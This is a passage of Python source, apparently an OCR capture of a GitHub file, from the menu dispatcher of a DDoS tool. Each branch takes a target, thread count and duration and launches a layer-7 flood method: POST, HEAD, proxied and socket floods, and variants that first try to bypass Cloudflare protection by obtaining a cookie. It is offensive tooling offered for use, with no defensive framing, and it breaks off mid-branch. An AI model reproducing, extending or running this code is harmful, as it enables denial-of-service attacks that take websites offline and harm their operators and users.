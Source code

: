         timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        LaunchPOST(target, thread, t)
        timer.join()
    elif command == "head" or command == "HEAD":
        target, thread, t = get_info_l7()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        LaunchHEAD(target, thread, t)
        timer.join()
    elif command == "lionprx" or command == "LIONRPX":
        if get_proxies():
            target, thread, t = get_info_l7()
            timer = threading.Thread(target=countdown, args=(t,))
            timer.start()
            LI(target, thread, t)
            timer.join()
    elif command == "lion2" or command == "LION2":
        target, thread, t = get_info_l7()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        LaunchLION2(target, thread, t)
        timer.join()
    elif command == "lionsock" or command == "LIONSOCK":
        if get_proxies():
            target, thread, t = get_info_l7()
            timer = threading.Thread(target=countdown, args=(t,))
            timer.start()
            LaunchLIONSOCK(target, thread, t)
            timer.join()
    elif command == "cfpro" or command == "CFPRO":
        target, thread, t = get_info_l7()
        stdout.write(Fore.MAGENTA+" [*] "+Fore.WHITE+"Bypassing CF... (Max 60s)\n")
        if get_cookie(target):
            timer = threading.Thread(target=countdown, args=(t,))
            timer.start()
            LaunchCFPRO(target, thread, t)
            timer.join()
        else:
            stdout.write(Fore.MAGENTA+" [*] "+Fore.WHITE+"Failed to bypass cf\n")
    elif command == "cfsoc" or command == "CFSOC":
        target, thread, t = get_info_l7()
        stdout.write(Fore.MAGENTA+" [*] "+Fore.WHITE+"Bypassing CF... (Max 60s)\n")
        if get_cookie(target):
            timer = threading.Thread(target=countdown, args=(t,))
            timer.start()
            LaunchCFSOC(target, thread, t)
            timer.join()
        else:
            stdout.write(Fore.MAGENTA+" [*] "+Fore.WHITE+"Failed to bypass cf\n")
    elif command == "lionking":
        target, thread, t = get_info_l7()
        threading.Thread(target=attackLIONKING, args=(target, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        timer.join()
    elif command == "bypass":
        target, thread, t = get_info_l7()
        threading.Thread(target=attackbypass, args=(target, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        timer.join()
    elif command == "lionprx":
        target, thread, t = get_info_l7()